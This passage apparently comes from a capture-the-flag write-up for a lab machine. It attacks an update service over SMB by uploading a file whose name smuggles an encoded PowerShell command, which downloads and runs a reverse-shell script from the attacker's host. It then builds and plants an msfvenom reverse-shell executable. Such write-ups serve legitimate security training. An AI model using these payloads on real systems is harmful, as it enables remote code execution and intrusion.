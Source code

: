 Upload both files to the client1 folder and wait

```
$ smbclient \\\\10.10.10.237\\Software_Updates
smb: \> cd client1
smb: \client1\> put "u';powershell -encodedcommand aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAyAC8AcgBlAHYAcwBoAGUAbAA0ADQANAA0AC4AcABzADEAIAAtAHUAcwBlAGIAKQA=;'pdate.exe"
putting file u';powershell -encodedcommand aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAyAC8AcgBlAHYAcwBoAGUAbAA0ADQANAA0AC4AcABzADEAIAAtAHUAcwBlAGIAKQA=;'pdate.exe as \client1\u';powershell -encodedcommand aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAyAC8AcgBlAHYAcwBoAGUAbAA0ADQANAA0AC4AcABzADEAIAAtAHUAcwBlAGIAKQA=;'pdate.exe (0.1 kb/s) (average 0.1 kb/s)
smb: \client1\> put latest.yml
putting file latest.yml as \client1\latest.yml (3.7 kb/s) (average 1.9 kb/s)
smb: \client1\> 
```

And now we wait... And there we go!

![](.images/image-20210725-161458.481.png)


**Scrap that**, get a better shell

$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.22 LPORT=4444 -f exe -o rev4444.exe
$ sha512sum rev4444.exe | cut -d ' ' -f1 | xxd -r -p | base64 -w0 
5/FCHD5g3yGtoKov7EKrDSt1XcH0kSAyA5azYEHQk50aBngA3MpFLN+gleO+SvyHgGSHKDFTU6ubPGql03P1DQ==  
$ mv rev4444.exe "rev'4444.exe"

smb: \client2\> put latest.yml
putting file latest.yml as \client2\latest.yml (3.0 kb/s) (average 3.0 kb/s)
smb: \client2\> put rev'4444.exe 
putting file rev'4444.exe as \client2\rev'4444.exe (77.8 kb/s) (average 40.6 kb/s)
smb: \client2\> 


## More enumeration

No services without quotes, no obvious vulnerabilities (at the time). Program files shows that redis is installed

```powershell
PS C:\> cd "Program Files"
PS C:\Program Files> gci


    Directory: C:\Program Files


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----          4/1/2021   4:50 AM                Common Files                                                         
d-----         3/31/2021  12:49 PM                CUAssistant                                                          
d-----         12/7/2019   1:50 AM                Internet Explorer                                                    
```